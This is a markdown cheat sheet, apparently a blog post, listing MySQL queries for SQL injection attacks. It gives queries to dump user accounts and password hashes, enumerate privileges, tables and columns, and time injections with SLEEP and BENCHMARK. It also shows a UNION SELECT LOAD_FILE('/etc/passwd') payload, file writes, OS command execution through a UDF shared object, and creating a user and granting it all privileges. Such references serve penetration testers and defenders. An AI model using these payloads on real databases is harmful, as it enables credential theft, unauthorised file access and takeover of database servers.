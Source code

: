 ```yaml
---
title: mysql injection cheatsheet 
date: 2019-06-20 15:58:45
tags: [sql-injection]
category: [sql-injection,security,cheatsheet]
---
```


|作用| 命令|
|---|---|
| Version |	SELECT @@version |
| Comments|	SELECT 1; #comment SELECT /*comment*/1;|
| Current User |    SELECT user(); SELECT system_user();|
| List Users   |	SELECT user FROM mysql.user; — priv |
| List Password Hashes | SELECT host, user, password FROM mysql.user; — priv|
Password Cracker| John the Ripper will crack MySQL password hashes.
List Privileges	| SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; [— list user privs] SELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;[ — priv, list user privs] SELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas) SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;[ — list privs on columns]
List DBA Accounts|	SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’; # priv
Current Database|	SELECT database()
List Databases	| SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0 SELECT distinct(db) FROM mysql.db — priv
List Columns |	SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’
List Tables|	SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’
Find Tables From Column Name	| SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’; — find table which have a column called ‘username’
Select Nth Row|	SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0 SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0
Select Nth Char |	SELECT substr(‘abcd’, 3, 1); # returns c
Bitwise AND	|SELECT 6 & 2; # returns 2 SELECT 6 & 1; # returns 0
ASCII Value -> Char	| SELECT char(65); # returns A
Char -> ASCII Value|	SELECT ascii(‘A’); # returns 65
Casting|	SELECT cast(’1′ AS unsigned integer);SELECT cast(’123′ AS char);
String Concatenation	|SELECT CONCAT(‘A’,'B’); #returns AB SELECT CONCAT(‘A’,'B’,'C’); # returns ABC
If Statement|SELECT if(1=1,’foo’,'bar’); — returns ‘foo’
Case Statement	| SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A
Avoiding Quotes	| SELECT 0×414243; # returns ABC
Time Delay|	SELECT BENCHMARK(1000000,MD5(‘A’)); SELECT SLEEP(5); # >= 5.0.12
Make DNS Requests | Impossible?
Command Execution|	If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.
Local File Access|	…’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files. SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system
Hostname, IP Address	| SELECT @@hostname;
Create Users	| CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv
Delete Users	| DROP USER test1; — priv
Make User DBA	| GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv
Location of DB files	| SELECT @@datadir;
Default/System Databases| 	information_schema (>= mysql 5.0)
